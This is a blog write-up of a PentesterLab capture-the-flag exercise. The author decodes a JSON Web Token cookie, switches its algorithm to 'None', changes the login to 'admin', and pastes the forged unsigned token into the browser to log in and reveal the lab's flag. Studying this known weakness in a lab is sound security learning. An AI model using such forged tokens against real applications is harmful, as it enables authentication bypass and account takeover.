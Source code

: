 ```yaml
---
title: JSON Web Token
date: "2017-06-14T22:40:32.169Z"
layout: post
path: "/pentesterlab/jwt"
category: "pentesterlab"
tile: "sm-tile"
color: "pentesterlab"
previewPicture: "white-badge.png"
previewPictureText: "White Badge"
readTime: "20"
hide: false
description: "Using the 'None' algorithm, I reverse a JWT cookie."
---
```


<div class='daily-hack-box'>
	<table class='table'>
		<thead>
		</thead>
		<tbody>
			<tr>
				<th scope='row'>Challenge</th>
				<td>Exploit the weakness of a JSON Web Token (JWT) in authentication in order to login successfully as admin.</td>
			</tr>
			<tr>
				<th scope='row'>Badge</th>
				<td>White Badge (1 of 6)</td>			
			</tr>
			<tr>
				<th scope='row'>Method</th>
				<td>JWT Weakness</td>
			</tr>
			<tr>
				<th scope='row'>Link</th>
				<td>
                    <a class='table-link' target='_blank' href='https://pentesterlab.com/exercises/jwt'>https://pentesterlab.com/exercises/jwt</a>
                </td>
			</tr>
			<tr>
				<th scope='row'>Flag</th>
				<td>
                b03de01a-3003-4f96-b2b0-e03534bd1c99
                </td>
			</tr>
			<tr>
				<th scope='row'>Sources</th>
				<td>
                <a class='table-link' target='_blank' href='https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/'>Critical vulnerabilities in JSON Web Token libraries</a>
                </td>
			</tr>
		</tbody>
	</table>
</div>

### Daily Hack #11 Writeup

First thing I did was create a user `root` with a password `toor` and login.  Next I opened my Chrome Web Tools and found my cookie with the command `document.cookie`.

```
"auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6InJvb3QiLCJpYXQiOiIxNDk3NDg4Nzk5In0.ZDE4ZGVmODM0YWU5ZGQ2NzMzNjg3YjE4OTE3YmU0NzA5ZmVjMTk5N2JhNzIxZmU0MzkwYzk4OTZiMTYxYzcwMQ"
```

Now that I have the cookie, let's break it down.  The general pattern for JSON Web Tokens is as follows:

<div class='text-response'>
	Base64(Header).Base64(Data).Base64(Signature)
</div>


I'm super comfortable with dev tools and javascript, so let's just decode this there.

```javascript
document.cookie.replace('auth=','').split('.').forEach((ele) => {
   console.log(atob(ele));
});
```

Quick explanation for those not familiar with javascript.  The above script is removing the `auth=` portion of the cookie so it's just the Base64 portions.  Next it splits the string into three strings in an array on every period.  So we essentially now have `[Base64(Header), Base64(Data), Base64(Signature)]`.  Next, iterate over the array and use javascript's Base64 decoder `atob()` to decode each portion.  The result is:

```javascript
{"alg":"HS256","typ":"JWS"}
{"login":"root","iat":"1497488799"}
d18def834ae9dd6733687b18917be4709fec1997ba721fe4390c9896b161c701
```

<figure>
    <img style="height: 300px;" src="./decode-cookie.png" alt="Decoding the Cookie">
    <figcaption>Decoding the Cookie</figcaption>
</figure>


In 2015, Tim McLean reviewed JSON Web Token implementations and found critical vulnerabilities that allows an attack to bypass verification.  One such method, is using the `none` algorithm.  The `none` algorithm requires no signature, it is treated as a valid token.  Therefore, anyone can modify the cookie payload if they want.


Recall our current cookie structure, we need to modify it so it uses `None` instead of `HS256` and `admin` instead of `root`.  Also, if we use `None`, we don't need a signature so it's setup to an empty string.

```javascript
{"alg":"None","typ":"JWS"}
{"login":"admin","iat":"1497488799"}
""
```

We need to reverse these new parameters into a cookie.  I can't loop this in the console easily, so I just browse to http://www.asciitohex.com/ and paste each of the objects in the ASCII section 1 by 1.


```
{"alg":"None","typ":"JWS"}            =>   eyJhbGciOiJOb25lIiwidHlwIjoiSldTIn0=
{"login":"admin","iat":"1497488799"}  =>   eyJsb2dpbiI6ImFkbWluIiwiaWF0IjoiMTQ5NzQ4ODc5OSJ9
```


Paired with the empty signature, I concatenate them into this cookie:

```bash
eyJhbGciOiJOb25lIiwidHlwIjoiSldTIn0=.eyJsb2dpbiI6ImFkbWluIiwiaWF0IjoiMTQ5NzQ4ODc5OSJ9.
```



And using EditThisCookie, I paste new cookie into the browser and refresh the page!


<figure>
    <img style="height: 240px;" src="./jwt-solution.png" alt="JWT Solution">
    <figcaption>JSON Web Token Solution</figcaption>
</figure>

<br>

And I am now logged in as `admin` and the flag is displayed!

```
b03de01a-3003-4f96-b2b0-e03534bd1c99
```

<br>